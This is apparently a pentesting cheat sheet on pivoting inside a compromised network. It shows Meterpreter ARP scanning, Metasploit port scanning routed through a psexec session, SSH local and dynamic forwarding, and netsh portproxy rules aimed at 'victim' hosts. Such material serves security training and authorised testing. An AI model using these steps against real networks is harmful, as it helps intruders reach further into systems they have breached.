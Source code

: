 #### Port scanning and ARP scanning

```
meterpreter > run arp_scanner -r 10.10.10.0/24 (meterpreter built in arp scanning module)
[*] ARP Scanning 10.10.10.0/24
[*] IP: 10.10.10.1 MAC 00:50:56:c0:00:08
[*] IP: 10.10.10.11 MAC 00:0c:29:76:53:e7
[*] IP: 10.10.10.100 MAC 00:0c:29:76:8a:75
meterpreter > background
msf5 exploit(windows/smb/psexec) > route add 10.10.10.0/24 1
msf5 exploit(windows/smb/psexec) > use auxiliary/scanner/portscan/tcp (metasploit built in tcp scanner)
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.1,11,100
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 22,25,80,135,445,631
msf5 auxiliary(scanner/portscan/tcp) > run
[+] 10.10.10.1: - 10.10.10.1:22 - TCP OPEN
[*] 10.10.10.1,11,100: - Scanned 1 of 3 hosts (33% complete)
[+] 10.10.10.11: - 10.10.10.11:135 - TCP OPEN
[+] 10.10.10.11: - 10.10.10.11:445 - TCP OPEN
[*] 10.10.10.1,11,100: - Scanned 2 of 3 hosts (66% complete)
```

#### SSH port forwarding

```
ATTACKER $> ssh -L 8000:ANOTHER_HOST_IN_VICTIM:80 user@PIVOT_IN_VICTIM
```

```
[Attacker] --> [Pivot in Victim] --> [Another host in Victim]
LISTEN:8000 -----------------------> SPECIFIC_PORT
```

#### SSH SOCKS propxy (dynamic port forwarding)

```
ATTACKER $> ssh -D 11111 user@PIVOT_IN_VICTIM
```

```
[Attacker] --> [Pivot in Victim] --> [Another host in Victim]
LISTEN:11111 -----(ANY PROTO)------> 
```

#### netsh port forwarding

```
C:\WINDOWS\system32> netsh interface portproxy add v4tov4
listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100
connectport=80
C:\WINDOWS\system32> netstat -nato | findstr :8000
TCP 0.0.0.0:8000 0.0.0.0:0 LISTENING 252 InHost
```

```
[Attacker] --> [Pivot in Victim] --> [Another host in Victim]
           ------ LISTEN:8000 -----> SPECIFIC_PORT
```
